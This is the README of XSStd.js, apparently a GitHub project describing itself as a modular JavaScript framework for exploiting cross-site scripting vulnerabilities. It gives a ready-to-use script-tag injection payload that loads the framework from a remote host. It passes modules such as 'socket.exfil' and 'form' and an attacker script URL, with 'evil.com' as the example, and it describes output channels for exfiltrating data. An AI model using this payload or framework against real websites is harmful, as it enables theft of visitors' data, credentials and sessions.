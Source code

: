 XSStd.js
=========

XSStd.js is a modular JS framework for exploiting XSS vulnerabilities.

Injecting the XSStd.js file automatically includes three handy JS classes — jQuery, underscore, and backbone. Additionally, you can pass in desired "modules" to accomplish specific tasks, along with a path to a user-definted JS file where you give XSStd.js (and requested modules) parameters necessary to carry out attacks.

____

Usage
---------

Injection:

```javascript
<script src="http://path.to/xsstd.js?m=&u="></script>
```

Parameters:
* **m**: Pipe-delimited list of modules to load upon initial execution. ex: socket.exfil|form
* **u**: URL to user-defined JS. ex: http://evil.com/evil.js

Structures
--------
* **Attacks** – Various categories of actions you can perform.
* **Outputs** – Various methods for exfiltrating data.

'ready'
--------

XSStd.js fires a 'ready' event when all external modules/scripts are finished loading:

```javascript
xsstd.on('ready', function(){
	// ready to go!
	// the main XSStd.js object can be referenced by using '_x' 
});
```

**If you have any questions, find me on [twitter]**


[twitter]:http://twitter.com/evanbooth
